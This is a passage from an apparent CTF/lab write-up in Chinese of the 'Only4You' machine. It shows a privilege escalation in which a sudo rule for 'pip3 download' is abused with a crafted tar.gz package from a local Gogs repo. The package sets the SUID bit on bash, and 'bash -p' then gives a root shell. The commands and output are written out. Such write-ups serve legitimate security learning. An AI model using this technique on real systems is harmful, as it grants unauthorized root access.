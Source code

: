 ```bash
john@only4you:~$ cat user.txt 
94ad……e03a
```


## Privilege Escalation

有密码的用户，上来先看看 `sudo -l`：
```bash
john@only4you:~$ sudo -l 
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

有通配符，较可疑。  
不过突破口其实是在前半部分的 `pip3 download`，我们可以谷歌找到这篇文章：[Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

根据文章指示构建一个tar.gz文件。  
然后在Gogs新建一个仓库，正好之前发现john用户可以用，将tar.gz文件上传。


运行：  
*靶机会自动清理仓库的样子*  
*下载仓库的tar.gz文件注意要选择“raw”*

```bash
john@only4you:~$ ls -l /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.7 kB 8.2 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
john@only4you:~$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

## flag: root

```bash
john@only4you:~$ bash -p
bash-5.0# id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)       
bash-5.0# cat /root/root.txt 
156a……3d3a
```

---

## 总结·后记

2023/05/31


难……已经啥都不想说了。想吐槽的以及不太懂的地方都边打边写了（斜体）……